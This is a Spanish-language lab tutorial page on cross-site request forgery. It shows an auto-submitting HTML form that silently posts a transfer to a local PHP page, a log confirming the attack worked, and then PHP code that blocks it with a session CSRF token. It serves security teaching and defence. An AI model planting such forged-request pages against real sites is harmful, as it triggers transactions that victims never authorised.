 Crea el archivo csrf_attack2.html:
~~~
<!DOCTYPE<html>
<body>
        <form action="http://localhost/transfer.php" method="POST">
                <input type="hidden" name="amount" value="1000">
                <input type="submit">
        </form>
        <script>
                document.forms[0].submit();
        </script>
</body>
</html>
~~~
El usuario al realizar una transferencia, no se dá cuenta que en realidad ha realizado una transferencia a la cuenta del atacante

![](images/csrf4.png)

Confirmación: El ataque CSRF automático funcionó
- El log indica que el navegador envió una solicitud POST a transfer.php desde csrf_attack2.html.
- El servidor respondió con 200 OK, lo que significa que la transacción se ejecutó sin que el usuario lo
notara.

Esto confirma que transfer.php sigue siendo vulnerable a CSRF en solicitudes automáticas porque NO está
validando un token CSRF en la petición POST.

### Mitigaciones
---
**Verificando que transfer.php está protegiendo correctamente con el token CSRF**
---

- Modificamos el archivo transfer.php:

- Nos aseguramos de que el código tiene esta validación:

~~~
<?php
session_start();
// Generar un token CSRF si no existe
if (empty($_SESSION['csrf_token'])) {
        $_SESSION['csrf_token'] = bin2hex(random_bytes(32));
}
// Solo permitir solicitudes POST con un token CSRF válido
if ($_SERVER["REQUEST_METHOD"] == "POST") {
        if (!isset($_POST['csrf_token']) || $_POST['csrf_token'] !== $_SESSION['csrf_token']) {die("CSRF detectado. Acción bloqueada.");
        }
        $amount = $_POST["amount"];
        echo "Transferidos $$amount";
}
?>
<form method="post">
        <input type="number" name="amount">
        <input type="hidden" name="csrf_token" value="<?php echo $_SESSION['csrf_token']; ?>">
        <button type="submit">Transferir</button>
</form>
~~~
